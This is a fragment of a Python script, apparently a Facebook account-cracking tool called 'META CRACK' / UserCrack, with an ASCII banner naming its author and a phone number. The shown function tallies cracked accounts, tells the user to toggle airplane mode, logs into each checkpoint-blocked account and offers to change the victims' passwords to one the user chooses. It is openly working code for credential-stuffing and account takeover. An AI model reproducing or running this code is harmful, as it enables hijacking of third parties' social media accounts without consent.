     print("")
# LOGO
def logo():
    os.system("clear")
    print("""\n
\033[1;92m     _          _
\033[1;92m      \\        /
\033[1;92m     __\\______/__
\033[1;92m     | [\033[1;31;1m©\033[1;92m]  [\033[1;31;1m©\033[1;92m] |​
 \033[1;92m    |  [\33[1;33m====\033[1;92m]  | [+] META CRACK  [+]
\033[1;92m╔══o00════════00o════════════════════╗
\033[1;31;1m█ \033[1;92m [•] \033[1;31;1mAuthor    :  \033[1;92m Yusep XD     \033[1;31;1m   █      
\033[1;31;1m█ \033[1;92m [•] \033[1;31;1mWhatsapp  :  \033[1;92m +6281383127594 \033[1;31;1m █
\033[1;31;1m█ \033[1;92m [•] \033[1;31;1mWhatsapp  : \033[1;92m  +6281383127594 \033[1;31;1m █
\033[1;31;1m█ \033[1;92m [•] \033[1;31;1mGorup Fb  :  \033[1;92m Private \033[1;31;1m        █
\033[1;31;1m█ \033[1;92m [•] \033[1;31;1mVersion   :\033[1;92m   5.0.5          \033[1;31;1m █
\033[1;92m╚════════════════════════════════════╝""")
#CRACK SELESAI
def hasil(ok,cp):
    if len(ok) != 0 or len(cp) != 0:
        print(f'\n%s══════════════════════════════════════════\n [%s✓%s] %sCracking By James Usercrack...\n%s══════════════════════════════════════════'%(N,H,N,H,N))
        print(f' %s[%s+%s] Number of Accounts OK : %s%s%s'%(H,H,H,H,str(len(ok)),H))
        print(f' [%s+%s] Number of Accounts CP : %s%s%s'%(H,H,H,str(len(cp)),H))
        cek_cp = input(f"{H}══════════════════════════════════════════\n [{H}+{H}] Show CP detector options [{H}Y{N}/{M}t{N}]: ")
        if cek_cp =="":
            print(f"\n [{M}!{N}] Don't be empty");hasil(ok,cp)
        elif cek_cp in["Y","y"]:
            jalan(f" {N}[{M}!{N}] Play airplanemode first");time.sleep(5)
            ww=input(f"\n {N}[{K}?{N}] Change password when {BM}TAP YES{N} [{H}Y{N}/{M}t{N}]: ")
            if ww in ("Y","y","ya"):
                ubahP.append("y")
                print(f" {N}[{H}•{N}] Password example : {H}james123{N}")
                pwBar=input(f" {N}[{K}?{N}] Enter new password : {H}")
                #print("\n")
                if len(pwBar) <= 5:
                    print('\n %s[%s×%s] Password minimum 6 characters'%(N,M,N))
                else:
                    pwBaru.append(pwBar)
            for memek in cp:
                kontol = memek.replace('\n', '')
                titid  = kontol.split(' • ')
                print(f'{N}══════════════════════════════════════════\n {H}LOGIN PROCESS')
                jalan(f' {N}[{M}?{N}] Account : {K}{kontol.replace("[JAMES-CP] ", "")}{N}')
                try:
                    log_hasil(titid[0].replace("[JAMES-CP] ", ""), titid[1])
                except requests.exceptions.ConnectionError:
                    continue
                    print("")
            print("")
            jalan(' %s[%s✓%s] %sChecking process is complete%s'%(N,H,N,H,N))
            jalan(' %s[%s✓%s] Retrun SC type "%spython UserCrack.py%s"'%(N,H,N,H,N));exit()
        elif cek_cp in["T","t"]:
            jalan(f"\n {N}[{H}•{N}] {N}Ok, thank you. Retrun SC type '{H}python UserCrack.py{N}'");exit()
        else:
            print(f"\n {N}[{M}!{N}] Choose Y/t");hasil(ok,cp)
    else:
        jalan('\n\n %s[%s!%s] Sorry you didnt get results'%(N,M,N));exit()
